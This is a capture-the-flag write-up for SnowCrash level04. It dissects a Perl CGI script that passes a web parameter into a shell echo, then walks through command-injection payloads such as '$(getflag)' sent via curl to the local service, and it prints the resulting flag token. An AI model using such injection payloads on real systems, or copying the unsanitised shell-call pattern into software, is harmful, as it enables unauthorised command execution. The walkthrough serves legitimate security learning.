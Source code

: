 # Level04



# context

after logged in with user `level04` a file named `level04.pl` pops up in home dir.


# Steps to reproduce

first I tried to run the executable file
```
level04@SnowCrash:~$ ./level04.pl
perl: warning: Setting locale failed.
perl: warning: Please check that your locale settings:
	LANGUAGE = (unset),
	LC_ALL = (unset),
	LC_TERMINAL_VERSION = "3.4.19",
	LC_CTYPE = "UTF-8",
	LC_TERMINAL = "iTerm2",
	LANG = "en_US.UTF-8"
    are supported and installed on your system.
perl: warning: Falling back to the standard locale ("C").
Content-type: text/html


level04@SnowCrash:~$
```

some warnings and useless text printed so I tried to read the file data
```
level04@SnowCrash:~$ cat level04.pl
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
x(param("x"));
level04@SnowCrash:~$
```

if you read the file carefully you noted the `use CGI qw{param};` line, what is `CGI`? well `CGI` stands for **Common Gateway Interface**, it’s a protocol for executing scripts via web requests,

so there's a hint that to solve this level you have to use some sort of web requests but to what?

there's a comment line `# localhost:4747`.
let's send request to this host and see:
```
level04@SnowCrash:~$ curl localhost:4747

level04@SnowCrash:~$
```

hmmmm, an empty response.


after reading the whole code and figure out what the scrip doing found out that.

so basicly what the script tries to do is:

1. import `param` from `CGI`.
2. then sending our http header
3. declar function (in perl named subroutine) named `x`.
4. take the first parameter `$_[0]` and assgin it to variable `$y`.
5. pass what ever the value of `$y` to echo.

so thw vulnerability in this script is I can pass anything to echo and it will execute it.

let's try it:
```
level04@SnowCrash:~$ ./level04.pl x='hello world'
perl: warning: Setting locale failed.
perl: warning: Please check that your locale settings:
	LANGUAGE = (unset),
	LC_ALL = (unset),
	LC_TERMINAL_VERSION = "3.4.19",
	LC_CTYPE = "UTF-8",
	LC_TERMINAL = "iTerm2",
	LANG = "en_US.UTF-8"
    are supported and installed on your system.
perl: warning: Falling back to the standard locale ("C").
Content-type: text/html

hello world
level04@SnowCrash:~$
```

if you ignore the warnings you will find that `hello world` is printed at the end

now let's try to pass a shell command to the `x`
```
level04@SnowCrash:~$ ./level04.pl x='$(ls )'
perl: warning: Setting locale failed.
perl: warning: Please check that your locale settings:
	LANGUAGE = (unset),
	LC_ALL = (unset),
	LC_TERMINAL_VERSION = "3.4.19",
	LC_CTYPE = "UTF-8",
	LC_TERMINAL = "iTerm2",
	LANG = "en_US.UTF-8"
    are supported and installed on your system.
perl: warning: Falling back to the standard locale ("C").
Content-type: text/html

level04.pl
level04@SnowCrash:~$
```

as you can see the `ls` command output is printed.

so to get the flag let's pass `getflag` and see if the flag will be printed.
```
level04@SnowCrash:~$ ./level04.pl x='$(getflag)'
perl: warning: Setting locale failed.
perl: warning: Please check that your locale settings:
	LANGUAGE = (unset),
	LC_ALL = (unset),
	LC_TERMINAL_VERSION = "3.4.19",
	LC_CTYPE = "UTF-8",
	LC_TERMINAL = "iTerm2",
	LANG = "en_US.UTF-8"
    are supported and installed on your system.
perl: warning: Falling back to the standard locale ("C").
Content-type: text/html

Check flag.Here is your token : Nope there is no token here for you sorry. Try again :)
level04@SnowCrash:~$
```

the printed message is the same as if I taped `getflag` directly in the shell prompt.

that's normal beccause the user executing command is `level04` not `flag04`.

remomber when we try to `curl localhost:4747` an empty line printed meaning `curl` was able to connect with the host

now le's combine all of our information 

1. a server is running in port 4747
2. there's a parameter `x` can be passed to the `echo` function.
3. echo will execute anything passed to it

the final payload is:
```
level04@SnowCrash:~$ curl localhost:4747/?x='$(getflag)'
Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap
level04@SnowCrash:~$
```

as you can see the server execute `getflag` with `flag04` user and give us the flag back.
